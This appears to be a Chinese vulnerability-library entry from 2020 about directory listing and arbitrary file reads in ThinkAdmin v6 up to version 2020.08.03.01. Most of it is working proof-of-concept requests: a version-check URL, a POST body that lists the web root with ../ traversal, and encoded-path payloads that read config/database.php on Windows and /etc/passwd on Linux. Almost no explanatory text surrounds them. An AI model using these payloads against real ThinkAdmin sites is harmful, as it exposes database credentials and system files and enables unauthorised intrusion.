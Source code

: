 ```yaml
---
title: 'ThinkAdmin v6 列目录任意文件读取'
date: Wed, 16 Sep 2020 09:56:04 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


ThinkAdmin v6 列目录任意文件读取 V5前，直接也能读取 列目录 poc: version()可以获取到当前版本：2020.08.03.01，≤这个版本的都有可能存在漏洞 http://think.admin/ThinkAdmin/public/admin.html?s=admin/api.Update/version 读取网站根目录Payload: http://think.admin/ThinkAdmin/public/admin.html?s=admin/api.Update/node post:rules=\["/"\] 也可以使用../来进行目录穿越-》 rules=\["../../../"\] 任意文件读取 需要进行encode() 加密一下字符串 On Windows read database.php payload:```
database.php   =>  public/static/../../config/database"php
/admin.html?s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34 
```On Linux read /etc/passwd payload:```
/admin.html?s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s 
```